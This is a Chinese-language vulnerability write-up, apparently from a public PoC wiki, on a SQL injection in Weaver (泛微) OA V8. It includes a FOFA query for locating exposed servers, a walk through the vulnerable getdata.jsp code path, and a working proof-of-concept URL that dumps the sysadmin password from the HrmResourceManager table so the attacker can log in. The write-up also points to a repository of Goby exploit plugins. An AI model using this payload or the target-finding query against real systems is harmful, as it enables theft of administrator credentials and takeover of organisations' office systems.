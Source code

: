 # 泛微OA-V8-SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

> [!NOTE]
>
> 泛微OA V8

## FOFA

> [!NOTE]
>
> app="泛微-协同办公OA"

## 漏洞复现

在getdata.jsp中，直接将request对象交给

**weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) : **

方法处理

![](泛微OA-V8-SQL注入漏洞.assets/1627363533797107.jpg)

在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法

![](泛微OA-V8-SQL注入漏洞.assets/1627363534028501.jpg)

Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![](泛微OA-V8-SQL注入漏洞.assets/1627363534518413.jpg)

根据以上代码流程，只要构造请求参数

?cmd= getSelectAllId&sql=select password as id from userinfo;

即可完成对数据库操控

POC

```
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![](泛微OA-V8-SQL注入漏洞.assets/1627363534696039.jpg)

解密后即可登录系统

![](泛微OA-V8-SQL注入漏洞.assets/1627363534902542.jpg)

##  Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Weaver OA 8 SQL injection

![](泛微OA-V8-SQL注入漏洞.assets/1627363535330666.jpg)

